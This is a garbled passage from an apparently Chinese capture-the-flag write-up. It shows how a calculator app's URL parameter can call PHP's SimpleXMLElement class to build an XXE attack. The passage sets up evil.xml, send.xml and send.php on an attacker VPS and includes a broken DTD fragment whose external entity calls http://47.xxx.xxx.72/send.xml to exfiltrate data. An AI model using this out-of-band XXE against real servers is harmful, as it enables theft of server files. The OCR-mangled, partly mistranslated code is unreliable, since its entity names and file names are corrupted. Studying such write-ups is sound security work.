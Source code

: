             
      
  
---|---  
  
`  
`

`我们点击计算按钮，计算2+2=4，我们观察url处的参数，再结合`calc`计算器类的代码参数模块，args的参数为调用的类的构造方法：`

`![](https://gitee.com/fuli009/images/raw/master/public/20210826084259.png)`

`所以我们可以通过这种形式调用PHP中的内置类。这里我们通过调用SimpleXMLElement这个内置类来构造XXE。`

`首先，我们在vps（47.xxx.xxx.72）上构造如下evil.xml、send.xml和send.php这三个文件。`

`邪恶.xml：`

`  
`

``

`PHP`

``

    
    
    1   
    2   
    3   
    4   
    5   
    6   
    7  
    

|

    
    
    xml version= "1.0" ?>  
       
    "http://47.xxx.xxx.72/send.xml" >   
    %remote;   
    %全部;   
    %发送;   
    ]>  
      
  
---|---  
  
`  
`

`发送.xml：`

`  
`

``
